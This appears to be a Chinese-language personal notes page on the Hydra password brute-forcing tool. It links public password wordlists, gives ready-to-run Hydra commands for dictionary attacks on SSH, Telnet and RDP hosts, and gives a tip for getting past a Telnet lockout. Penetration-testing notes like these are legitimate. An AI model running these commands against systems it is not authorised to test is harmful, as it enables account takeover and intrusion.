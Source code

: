 ```yaml
---
tags: [Hydra, brute force, 暴力破解, 字典攻击]
last_modified_time: 2020-06-18 17:57:45 +0800
---
```


本文介绍了知名暴力破解工具 Hydra 的基本信息、使用方法及遇到过的一些问题

<p id="markdown-toc"></p>
<!-- vim-markdown-toc GFM -->

* [简介](#简介)
* [常用链接](#常用链接)
* [基本原理](#基本原理)
* [常用字典](#常用字典)
* [使用方法](#使用方法)
  * [ssh](#ssh)
  * [telnet](#telnet)
  * [rdp](#rdp)
* [遇到过的问题](#遇到过的问题)
  * [暴力破解 telnet 遇到尝试 5 次后端口被锁，300s 后才能再试怎么办？](#暴力破解-telnet-遇到尝试-5-次后端口被锁300s-后才能再试怎么办)
* [链接](#链接)

<!-- vim-markdown-toc -->

## 简介
> &emsp;&emsp;Hydra是并行的网络登录破解程序。Hydra通过使用不同的方法来生成可能的密码，例如单词列表攻击，蛮力攻击等。渗透测试人员通常将 Hydra 与名为 crunch 的程序一起使用，该程序用于生成单词表。然后使用 Hydra 使用紧缩创建的单词列表来测试攻击。
> 
> &emsp;&emsp;随着更多服务的支持，Hydra 将随着时间的推移进行更新。Hydra 的创建者将其工作发布在 GitHub 之类的存储库中。
> 
> &emsp;&emsp;——谷歌翻译自[Hydra (software) - Wikipedia](https://en.wikipedia.org/wiki/Hydra_(software))

## 常用链接
* [vanhauser-thc/thc-hydra: hydra](https://github.com/vanhauser-thc/thc-hydra)

## 基本原理
字典攻击或暴力破解

## 常用字典
* <https://raw.githubusercontent.com/berzerk0/Probable-Wordlists/master/Real-Passwords/Top207-probable-v2.txt>
* <https://raw.githubusercontent.com/jeanphorn/wordlist/master/rdp_passlist.txt>
* <https://krebsonsecurity.com/2013/12/hacked-via-rdp-really-dumb-passwords/>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/best110.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-passwords-shortlist.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/worst-passwords-2017-top100-slashdata.txt>
* <https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords-100.txt>


## 使用方法
详情参见`man hydra`，里面有详细的说明。本部分着重讲的是笔者的使用经历

### ssh

```
hydra -L users.txt -P dic_passwd.txt -M ssh_active_host.txt -e nsr -F -t 4 -vV ssh
```


### telnet
```
hydra -C dic/user_pass.txt -e nsr -f -vV -t 1 telnet://192.168.1.1:23
```


### rdp
```
hydra -l administrator -P Top207-probable-v2.txt -M rdp_active_host.txt -e nsr -f -t 1 -vV rdp | tee hydra.log
```


## 遇到过的问题
### 暴力破解 telnet 遇到尝试 5 次后端口被锁，300s 后才能再试怎么办？
设置 `-W` 参数（如`-W 60`），让其在连接一次后等待一段时间。

## 链接
下面总结了本文中使用的所有链接：

<!-- link start -->
* [Hydra (software) - Wikipedia](https://en.wikipedia.org/wiki/Hydra_(software))
* [vanhauser-thc/thc-hydra: hydra](https://github.com/vanhauser-thc/thc-hydra)

<!-- link end -->

